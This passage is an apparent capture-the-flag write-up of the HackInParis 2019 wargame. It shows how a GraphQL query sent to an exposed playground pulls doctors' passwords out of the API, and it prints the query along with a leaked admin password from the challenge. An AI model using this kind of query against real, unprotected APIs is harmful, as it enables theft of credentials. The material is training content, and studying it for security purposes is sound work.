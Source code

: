 # HackInParis 2019 Wargame write-up

### intro

I didn't attend HIP(only budgeted for LeHack :p), but they were kind to host a publicly accessible wargame. 
It was a good opportunity to evaluate Sysdream "Malice" CTF platform of on-demand CTF's for security training or other needs.

## Meet your doctor 1

We are tasked to retrieve the site administrators password. We have a website without any login forms or other vectors for injection.

However, there is a link "Try our API!", which gives us a nice [GraphQL playground](https://github.com/prisma/graphql-playground), 
which allows us to see the API schema and construct the queries inside the browser. 
We get a list of doctors and their passwords by constructing this query:
``` 
{
    doctors{
    firstName, 
    lastName, 
    password}
}
```

And receive a response of many doctors, plus their passwords

```
      {
        "firstName": "Admin",
        "lastName": "Admin",
        "password": "Now-_Let$|GetSeri0us"
      }
```

## Defcon 5
